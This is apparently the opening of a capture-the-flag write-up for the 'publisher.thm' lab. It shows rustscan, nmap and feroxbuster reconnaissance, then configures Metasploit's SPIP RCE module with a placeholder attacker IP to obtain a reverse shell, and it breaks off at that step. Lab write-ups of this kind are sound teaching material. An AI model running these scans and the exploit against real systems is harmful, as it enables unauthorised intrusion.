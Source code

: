 ```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

### \[-] publisher.thm

Here we will find an uncustomized [Spip](https://www.spip.net/en_rubrique25.html) installation:

![a7fadfb5ccdba390b72eec4cdd7dce5d.png](/resources/da0c9ecd83c34b3893a6e7aae00445d3.png)

Nothing here, so we'll do some directory/file fuzzing using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt):

```sh
feroxbuster -u http://publisher.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

There will be a lot of output, but if we start with the `/spip` directory we will find a blog post:

![eda977807fc24a11801272b85ff6b841.png](/resources/9a822b665d9548e0a4cd3936d65bd1ed.png)

### \[-] publisher.thm/spip/

![633e0c11196ade9d8dec7ca108891d14.png](/resources/d1d026b5a0bd49bda0dcfdcb0463f036.png)

Pressing `CTRL + U` will allow us to view the source code for this web page, where we will find the version number on line 96:

![0fd431ced3f9b1e895124422b01f204d.png](/resources/0c0087b34b474732b24713add83cf424.png)

# Initial Foothold

### \[-] www-data\@publisher

To get a reverse shell, I found that Metasploit was the best option in this case. Let's start by running Metasploit and then selecting the RCE for SPip:

```sh
msfconsole
use exploit/unix/webapp/spip_rce_form
```

Next, we check the settings using the `options` command and set the following options:

```sh
options
set RHOSTS publisher.thm
set TARGETURI /spip
set LHOST <ATTACKER_IP>
```
